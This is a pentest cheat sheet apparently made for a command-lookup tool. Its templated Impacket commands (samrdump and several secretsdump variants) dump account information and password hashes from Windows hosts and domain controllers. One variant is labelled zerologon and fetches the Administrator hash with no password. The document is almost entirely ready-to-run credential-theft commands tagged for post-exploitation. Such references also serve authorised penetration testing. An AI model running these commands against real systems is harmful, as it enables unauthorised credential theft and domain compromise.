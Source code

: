 # Impacket

% impacket, windows, smb, 445

## samrdump - system account, shares, etc... (dump info from the Security Account Manager (SAM))
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
samrdump.py <domain>/<user>:<password>@<target_ip>
```

## secretsdump
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
impacket-secretsdump '<domain>/<user>:<password>'@<target_ip>
```

## secretsdump local dump - extract hash from sam database
#plateform/linux #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
impacket-secretsdump  -system <SYSTEM_FILE|SYSTEM> -sam <SAM_FILE|SAM> LOCAL
```

## secretsdump local dump - extract hash from ntds.dit
#plateform/linux #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
impacket-secretsdump  -ntds <ntds_file.dit> -system <SYSTEM_FILE> -hashes <lmhash|00000000000000000000000000000000>:<nthash> LOCAL -outputfile <ntlm-extract-file>
```

## secretsdump - anonymous get administrator 
zerologon
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
impacket-secretsdump <domain>/<dc_bios_name>\$/@<target_ip> -no-pass -just-dc-user "Administrator"
```

## secretsdump - remote extract
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
impacket-secretsdump -just-dc-ntlm -outputfile <ntlm-extract-file> <domain>/<user>:<password>@<target_ip>
```

## secretsdump - remote extract + users infos
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
impacket-secretsdump -just-dc -pwd-last-set -user-status -outputfile <ntlm-extract-file> <domain>/<user>:<password>@<target_ip>
```


